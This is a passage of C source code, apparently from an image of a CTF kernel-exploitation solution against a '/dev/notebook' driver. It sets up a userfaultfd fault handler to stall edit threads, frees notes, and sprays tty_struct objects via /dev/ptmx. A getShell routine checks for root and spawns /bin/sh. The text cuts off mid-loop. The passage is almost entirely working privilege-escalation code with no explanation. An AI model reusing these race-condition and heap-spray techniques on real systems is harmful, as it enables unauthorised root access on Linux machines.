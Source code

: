 ```c
        if (nread == -1)
            errExit("read");

        if (msg.event != UFFD_EVENT_PAGEFAULT)
            errExit("Unexpected event on userfaultfd\n");

        uffdio_copy.src = (unsigned long) page;
        uffdio_copy.dst = (unsigned long) msg.arg.pagefault.address &
                          ~(page_size - 1);
        uffdio_copy.len = page_size;
        uffdio_copy.mode = 0;
        uffdio_copy.copy = 0;
        if (ioctl((int)uffd, UFFDIO_COPY, &uffdio_copy) == -1)
            errExit("ioctl-UFFDIO_COPY");
    }
}

void getShell(){
    if(getuid())
        errExit("Failed to get root privilege");
    printf("\033[1;32mSuccessfully get root shell!\n\033[m");
    system("/bin/sh");
}

int main(){
    saveStatus();
    page_size = sysconf(_SC_PAGESIZE);
    page = (char*)malloc(0x1000);
    memset(page, 'a', 0x1000);
    fd = open("/dev/notebook", O_RDWR);

    mmap_space = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    printf("\033[1;34mMmap executed, mmap address: %p\n\033[m", mmap_space);
    registerUserFaultFd(mmap_space, 0x1000, fault_handler_thread);
    printf("\033[1;34mMmap space userfaultfd registered.\n\033[m");

    for(int i=0; i<0x10; i++)
        noteadd(i, TTY_STRUCT_SIZE, page);
    printf("\033[1;34mNotebook filled.\n\033[m");
    notebook_msg(true);
    sleep(1);

    for(int i=0; i<0x10; i++)
        pthread_create(&edit_thread, NULL, noteedit_exp, (void*)i); // trigger page fault, freeing all notes
    printf("\033[1;34mCreated 16 paused thread of edit and freeing all notes.\n\033[m");
    sleep(1);

//    for(int i=0; i<0x10; i++)
//        sem_post(&edit_sem);
//    sleep(1);

    for(int i=0; i<0x60; i++)
        ptmx_fds[i] = open("/dev/ptmx", O_RDWR | O_NOCTTY);
    printf("\033[1;32mHeap sprayed by lots of tty_struct by opening /dev/ptmx\n\033[m");
    sleep(1);

    for(int i=0; i<0x10; i++)
        pthread_create(&add_thread, NULL, noteadd_exp, (void*)i);
    notebook_msg(true);
    sleep(1);

//    for(int i=0; i<0x10; i++)
```